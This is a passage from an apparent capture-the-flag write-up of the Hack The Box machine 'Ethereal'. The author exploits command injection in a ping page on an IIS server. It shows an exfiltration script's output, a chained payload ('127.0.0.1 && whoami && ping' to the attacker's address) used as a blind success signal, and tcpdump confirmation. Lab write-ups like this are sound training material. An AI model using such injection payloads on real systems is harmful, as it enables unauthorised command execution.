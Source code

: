 Interesting, there's a directory `p1ng`, let's check check it out:

![](/assets/images/htb-writeup-ethereal/web3.png)

Wow, so we didn't even need the credentials from the password manager have we known this hidden path.

I got really stuck at this point and spent the next several hours trying to find ways to get a proper shell, or find hidden files that would allow me to get unstuck. I didn't get far until at some point after I had switched the path invoked by the script to use the unauthenticated page on port 80, I realized that the `whoami` output I was now getting was different.

```
root@darkisland:~/hackthebox/Machines/Ethereal# ./exfil_iis.py 
$> whoami
(col#)> 
[+] Receiving data:
b'iis'
```

Ok, so the webserver on port 80 is not running with the same user as port 8080.

After wasting a few more hours, I realized that AppLocker isn't enabled for user `IIS`. I suspected that the outbound ports on the box would be firewalled so I used a boolean blind approach to test various commands. The following payload will ping my machine only if the preceding command has been successfully executed: `127.0.0.1 && whoami && ping 10.10.14.23`.

To test this, I first tried a command that I know will work: `127.0.0.1 && whoami && ping 10.10.14.23`

```
root@darkisland:~# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:02:19.817657 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 63, length 40
21:02:19.817712 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 63, length 40
21:02:20.777578 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 64, length 40
21:02:20.777608 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 64, length 40
21:02:21.768882 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 65, length 40
21:02:21.768933 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 65, length 40
21:02:22.919376 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 66, length 40
21:02:22.919408 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 66, length 40
```
